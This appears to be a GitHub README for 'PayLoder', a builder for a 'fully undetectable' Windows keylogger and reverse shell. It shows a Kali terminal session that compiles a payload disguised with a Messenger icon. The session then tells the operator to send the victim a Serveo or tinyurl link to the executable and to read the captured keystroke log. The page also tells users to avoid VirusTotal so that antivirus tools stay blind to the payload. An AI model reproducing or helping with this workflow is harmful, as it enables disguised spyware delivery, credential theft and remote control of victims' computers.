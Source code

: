 # PayLoder
     make a payload 
https://https://github.com/indrajitkar/PayLoder

### Don't copy this code without give me the credits, nerd! FUD Win32 Keylogger and Reverse Shell (cmd.exe) ### Features: ### Port Forwarding using Serveo ### Fully Undetectable (Please, dont upload to totalvirus!) ### Custom icon (Default: WhatsApp, Messenger) ## Legal disclaimer: Usage of SpyKey for attacking targets without prior mutual consent is illegal. It's the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program.

root@kali:~/test$ cd PayLoder                                                                                                 root@kali:~/test/PayLoder$ sudo bash PayLoder.sh                                                                              .Lucifar.
                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             uthor: indrajit              
                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                          You don't become a coder by just changing the credits    
                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                        [+] Choose a Port (Default: 2504 ): 1337  
                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               [+] Payload name (Default: payload ): messenger                                                                                                                                                                                                                                                                                                 [+] Log file name (Default: log ): test1                                                                                                                                                                                                                                                                                                        1: icon/messenger.ico                                                                                                                                                   2: icon/settings.ico                                                                                                                                                    3: icon/whatsapp.ico                                                                                                                                                    99: Choose a path                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       [*] Choose an ICON (Default: 1 ): 1                                                                                                                                     [*] Compiling...                                                                                                                                                        [*] Saved: messenger.exe                                                                                                                                                [!] Please, don't upload to virustotal.com !                                                                                                                            [*] Starting server...    W                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              [*] Send the direct link to target: https://sollers.serveo.net/messenger.exe                                                                                                                                                                                                                                                                    [*] Or using tinyurl: http://tinyurl.com/yb2yoxcp                                                                                                                                                                                                                                                                                                                                                                                                                                                                       [*] Waiting connection...                                                                                                                                               [*] Get log from keylogger run: type test1  target
